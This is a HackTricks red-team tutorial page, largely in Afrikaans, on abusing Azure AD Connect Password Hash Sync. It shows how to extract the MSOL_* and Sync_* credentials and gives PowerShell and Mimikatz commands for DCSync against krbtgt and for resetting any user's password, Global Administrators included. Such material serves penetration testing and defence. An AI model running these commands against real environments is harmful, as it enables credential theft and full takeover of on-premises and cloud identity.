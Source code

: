 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Wagwoord hash sinkronisering** is een van die aanmeldmetodes wat gebruik word om 'n hibriede identiteit te bereik. **Azure AD Connect** sinkroniseer 'n hash, van die hash, van 'n gebruiker se wagwoord van 'n plaaslike Active Directory-instansie na 'n wolk-gebaseerde Azure AD-instansie.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Dit is die **meest algemene metode** wat deur maatskappye gebruik word om 'n plaaslike AD met Azure AD te sinkroniseer.

Alle **gebruikers** en 'n **hash van die wagwoord hashes** word van die plaaslike na Azure AD gesinkroniseer. egter, **duidelike wagwoorde** of die **oorspronklike** **hashes** word nie na Azure AD gestuur nie.\
Boonop, **Ingeboude** sekuriteitsgroepe (soos domein admins...) word **nie gesinkroniseer** na Azure AD nie.

Die **hashes sinkronisering** vind elke **2 minute** plaas. egter, standaard, **wagwoord vervaldatums** en **rekening** **vervaldatums** word **nie gesinkroniseer** in Azure AD nie. So, 'n gebruiker wie se **plaaslike wagwoord verval** (nie verander nie) kan voortgaan om **toegang tot Azure hulpbronne** te verkry met die ou wagwoord.

Wanneer 'n plaaslike gebruiker 'n Azure hulpbron wil benader, vind die **verifikasie plaas op Azure AD**.

**PHS** is vereis vir funksies soos **Identiteitsbeskerming** en AAD Domeindienste.

## Pivoting

Wanneer PHS geconfigureer is, word sommige **bevoorregte rekeninge** outomaties **gecreëer**:

* Die rekening **`MSOL_<installationID>`** word outomaties in plaaslike AD geskep. Hierdie rekening ontvang 'n **Directory Synchronization Accounts** rol (sien [dokumentasie](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) wat beteken dat dit **replicatie (DCSync) toestemmings in die plaaslike AD** het.
* 'n rekening **`Sync_<name of on-prem ADConnect Server>_installationID`** word in Azure AD geskep. Hierdie rekening kan **die wagwoord van ENIGE gebruiker** (gesinkroniseer of slegs wolk) in Azure AD **herstel**.

Wagwoorde van die twee vorige bevoorregte rekeninge word **in 'n SQL-server gestoor** op die bediener waar **Azure AD Connect geïnstalleer is.** Administrateurs kan die wagwoorde van daardie bevoorregte gebruikers in duidelike teks onttrek.\
Die databasis is geleë in `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Dit is moontlik om die konfigurasie van een van die tabelle te onttrek, wat een versleuteld is:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

Die **versleutelde konfigurasie** is versleuteld met **DPAPI** en dit bevat die **wagwoorde van die `MSOL_*`** gebruiker in plaaslike AD en die wagwoord van **Sync\_\*** in AzureAD. Daarom, om hierdie te kompromitteer, is dit moontlik om privesc na die AD en AzureAD te verkry.

Jy kan 'n [volledige oorsig van hoe hierdie akrediteer bespaar en ontsleutel in hierdie praatjie vind](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Finding the **Azure AD connect server**

As die **bediener waar Azure AD connect geïnstalleer is** aan die domein gekoppel is (aanbeveel in die dokumentasie), is dit moontlik om dit te vind met:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Misbruik van MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Jy kan ook [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) gebruik om hierdie akrediteer te verkry.
{% endhint %}

### Misbruik van Sync\_\*

Deur die **`Sync_*`** rekening te kompromitteer, is dit moontlik om die **wagwoord** van enige gebruiker (insluitend Globale Administrators) te **herstel**.
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Dit is ook moontlik om **slegs die wagwoorde van wolk** gebruikers te **wysig** (selfs al is dit onverwags)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Dit is ook moontlik om die wagwoord van hierdie gebruiker te dump.

{% hint style="danger" %}
'n Ander opsie sou wees om **bevoorregte toestemmings aan 'n dienshoof** toe te ken, wat die **Sync** gebruiker **toestemmings** het om te doen, en dan **daardie dienshoof** te benader as 'n manier van privesc.
{% endhint %}

### Naadlose SSO

Dit is moontlik om Naadlose SSO met PHS te gebruik, wat kwesbaar is vir ander misbruik. Kontroleer dit in:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Verwysings

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
